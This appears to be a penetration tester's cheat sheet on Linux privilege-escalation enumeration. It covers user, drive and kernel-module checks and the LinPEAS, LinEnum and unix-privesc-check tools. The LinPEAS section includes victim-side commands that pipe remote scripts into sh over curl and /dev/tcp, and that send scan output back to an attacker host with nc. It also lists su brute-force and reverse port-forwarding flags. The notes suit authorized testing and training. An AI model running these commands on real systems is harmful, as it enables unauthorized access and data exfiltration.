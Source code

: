 # Linux Enumeration



One of the first things we should identify is the user context.
```
id
```
The output reveals:
- the user we are operating as
- our User Identifier (UID)
- our Group Identifier (GID)
- wether we are also part of other groups






## Drives
On most systems, drives are automatically mounted at boot time.
Because of this, it's easy to forget about unmounted drives that could contain valuable information.
We should always look for unmounted drives, and if they exist, check the mount permissions.

Use `mount` to list all mounted filesystems.

In addition, the `/etc/fstab` file lists all drives that will be mounted at boot time.


Keep in mind that the system administrator might have used custom configurations or scripts to mount drives that are not listed in the `/etc/fstab` file. Because of this, it's good practice to not only scan `/etc/fstab`, but to also gather information about mounted drives using `mount`.


Furthermore, we can use `lsblk` to view all available disks.






## Enumerate the loaded kernel modules
```
lsmod
```

Once we've collected the list of loaded modules and identified those we want more information about we can use modinfo to find out more about the specific module.

Note: this tool requires the full path to run.

Example with module `libata`:
```
/sbin/modinfo libata
```


Once we've obtained a list of drivers and their versions, we are better positioned to find any relevant exploits.
















## Automated Enumeration




### privesc-check

- <https://pentestmonkey.net/tools/audit/unix-privesc-check>
```
/usr/bin/unix-privesc-check
```













### LinPEAS

- <https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS>

Enumerate and search Privilege Escalation vectors.

This tool enum and search possible misconfigurations (known vulns, user, processes and file permissions, special file permissions, readable/writable files, bruteforce other users(top1000pwds), passwords...) inside the host and highlight possible misconfigurations with colors.


Download LinPEAS:
```
# From github
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh

# Without curl
python -c "import urllib.request; urllib.request.urlretrieve('https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh', 'linpeas.sh')"

python3 -c "import urllib.request; urllib.request.urlretrieve('https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh', 'linpeas.sh')"


# Use a linpeas binary
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas_linux_amd64
chmod +x linpeas_linux_amd64
./linpeas_linux_amd64


```


```
# Local network
sudo python3 -m http.server 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim

# Without curl
sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim

# Excute from memory and send output back to the host
nc -lvnp 9002 | tee linpeas.out #Host
curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #Victim
```




Output to file:
```
./linpeas.sh -a > /dev/shm/linpeas.txt

# Read with colors
less -r /dev/shm/linpeas.txt
```


#### Flags

Checks:

`-a` Perform all checks: 1 min of processes, su brute, and extra checks.

`-o` Only execute selected checks (system_information,container,cloud,procs_crons_timers_srvcs_sockets,network_information,users_information,software_information,interesting_perms_files,interesting_files,api_keys_regex). Select a comma separated list.

`-s` Stealth & faster (don't check some time consuming checks)                                                                                    
`-e` Perform extra enumeration

`-t` Automatic network scan & Internet conectivity checks - This option writes to files                                                           
`-r` Enable Regexes (this can take from some mins to hours)                                                                                       
`-P` Indicate a password that will be used to run 'sudo -l' and to bruteforce other users accounts via 'su'     
                                  
`-D` Debug mode



Network recon:
                                                     
`-t` Automatic network scan & Internet conectivity checks - This option writes to files
                                                         
`-d` <IP/NETMASK> Discover hosts using fping or ping. Ex: -d 192.168.0.1/24                                      
                                 
`-p` <PORT(s)> -d <IP/NETMASK> Discover hosts looking for TCP open ports (via nc). By default ports 22,80,443,445,3389 and another one indicated by you will be scanned (select 22 if you don't want to add more). You can also add a list of ports. Ex: -d 192.168.0.1/24 -p 53,139
                     
`-i` <IP> [-p <PORT(s)>] Scan an IP using nc. By default (no -p), top1000 of nmap will be scanned, but you can select a list of ports instead. Ex: -i 127.0.0.1 -p 53,80,443,8000,8080                                                                                                                
Notice that if you specify some network scan (options -d/-p/-i but NOT -t), no PE check will be performed                                  
																																				
Port forwarding (reverse connection):

`-F` LOCAL_IP:LOCAL_PORT:REMOTE_IP:REMOTE_PORT Execute linpeas to forward a port from a your host (LOCAL_IP:LOCAL_PORT) to a remote IP (REMOTE_IP:REMOTE_PORT)                                                                                                                                                
																																				
Firmware recon:

`-f` </FOLDER/PATH> Execute linpeas to search passwords/file permissions misconfigs inside a folder                                               
																																				
Misc:                                                                                                                                               
`-h` To show this message                                                                                                                         
`-w` Wait execution between big blocks of checks                                                                                                  
`-L` Force linpeas execution                                                                                                                      
`-M` Force macpeas execution                                                                                                                      
`-q` Do not show banner                                                                                                                           
`-N` Do not use colours                                     




























### LinEnum
- <https://github.com/rebootuser/LinEnum>

- <https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh>

```

LinEnum.sh -s -k keyword -r report -e /tmp/ -t

```










